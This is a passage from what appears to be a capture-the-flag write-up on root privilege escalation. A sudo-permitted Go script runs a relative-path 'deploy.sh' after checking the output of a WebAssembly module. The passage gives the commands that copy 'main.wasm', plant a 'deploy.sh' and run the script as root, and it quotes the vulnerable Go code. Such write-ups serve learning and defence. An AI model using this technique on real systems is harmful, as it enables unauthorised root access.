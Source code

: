 rather than binaries if script not use absolute path when invoke any file from specific directory it is error out and not use env variables to find the file.

If user execute `index.go` from outside `/opt/wasm-functions` directory it error-out.

![](/assets/img/posts/ophiuchi/file-not-found.png)

this can be exploited by coping `main.wasm` in other directory and create `deploy.sh` with reverse shell
```bash
cp /opt/wasm-functions/main.wasm .
echo -e '#!/bin/bash\n\nid' > deploy.sh
sudo -u root /usr/bin/go run /opt/wasm-functions/index.go
```

![](/assets/img/posts/ophiuchi/still-something.png)

executed successfully but there is something else that stopping script from executing `deploy.sh`.

**Checking main function**
```go
func main() {
  // Reads the WebAssembly module as bytes.
	bytes, _ := wasm.ReadBytes("main.wasm")

  // Instantiates the WebAssembly module.
	instance, _ := wasm.NewInstance(bytes)
	defer instance.Close()

  // Gets the `info` exported function from the WebAssembly instance.
	init := instance.Exports["info"]

  // Calls that exported function.
	result,_ := init()

  //store result value as string in variable "f"
	f := result.String()
	if (f != "1") {
		fmt.Println("Not ready to deploy")
	} else {
		fmt.Println("Ready to deploy")
		out, err := exec.Command("/bin/sh", "deploy.sh").Output()
		if err != nil {
			log.Fatal(err)
		}
		fmt.Println(string(out))
	}
}
```
